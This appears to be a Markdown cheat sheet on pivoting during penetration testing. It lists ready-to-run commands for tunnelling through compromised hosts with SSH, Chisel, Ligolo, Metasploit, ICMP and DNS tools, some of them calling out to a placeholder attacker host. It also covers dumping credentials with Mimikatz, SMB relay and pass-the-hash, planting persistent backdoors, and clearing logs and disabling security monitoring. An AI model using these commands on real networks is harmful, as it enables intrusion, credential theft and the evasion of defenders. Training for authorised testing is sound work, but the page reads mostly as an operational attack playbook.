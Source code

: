 # Pivoting in Penetration Testing

## Introduction
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources. 

## Table of Contents
- [Pre Pivot](#pre-pivot)
  - [Compromise an Initial Host](#compromise-an-initial-host)
  - [Identify Network Interfaces](#identify-network-interfaces)
  - [Enumerate Internal Network](#enumerate-internal-network)
- [Pivoting](#pivoting)
  - [SSH Pivoting (Dynamic and Local Port Forwarding)](#ssh-pivoting-dynamic-and-local-port-forwarding)
  - [SSHuttle Pivoting](#sshuttle-pivoting)
  - [Ligolo (Auto Route Creation)](#ligolo-auto-route-creation)
  - [Chisel (Fast TCP/UDP Tunneling)](#chisel-fast-tcpudp-tunneling)
  - [Metasploit Pivoting](#metasploit-pivoting)
  - [Plink (PuTTY Link) Pivoting](#plink-putty-link-pivoting)
  - [RDP Pivoting](#rdp-pivoting)
  - [ICMP Tunneling](#icmp-tunneling)
  - [DNS Tunneling](#dns-tunneling)
- [Post Pivoting](#post-pivoting)
  - [Routing Traffic Through Compromised Host](#routing-traffic-through-compromised-host)
  - [Exploit Further and Move Laterally](#exploit-further-and-move-laterally)
  - [Maintain Access and Cover Tracks](#maintain-access-and-cover-tracks)

--- 
# Pre Pivot 
- ## Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.
- ## Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```
  Identify internal IP ranges that may indicate private networks.

- ## Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).

--- 
# Pivoting
  - ## SSH Pivoting (Dynamic and Local Port Forwarding)
      - Improper pivot as some of the reuest will not work.
      - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
      - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
  - ## SSHuttle Pivoting
      - Improper pivot as some of the reuest will not work.
      - `sshuttle -r privilege@192.168.80.10 192.168.98.0/24`
      - Explained `sshuttle -r user@target internal_ip/24`.
  - ## Ligolo (Auto Route Creation)
      - Setup network configuration
        ```bash
            ip tuntap add user root mode tun ligolo
            ip link set ligolo up
        ```
      - On attacker's machine: `./ligolo -reverse -listen :9090`
      - On compromised machine: `./ligolo -connect attacker-ip:9090`
      - Type on proxy
        ```bash
        session
        start
        ifconfig
        ```
      - Configure Internal IP with proper IP (Replace given IP with targets internal ip)
         ```bash
         ip route add 192.168.148.0/24 dev ligolo
         ip route list
         ```
      - Incase of issue `ip route del 192.168.98.0/24`
  - ## Chisel (Fast TCP/UDP Tunneling)
      - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
      - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
        
  - ## Metasploit Pivoting
      - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
      - Use socks4a module to enable ProxyChains:
        ```bash
        use auxiliary/server/socks4a
        set SRVPORT 1080
        exploit
        ```
  - ## Plink (PuTTY Link) Pivoting
      - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
  - ## RDP Pivoting
      - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
  - ## ICMP Tunneling
      - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
  - ## DNS Tunneling
      - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`

---
# Post Pivoting
- ## Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

- ## Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

- ## Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.
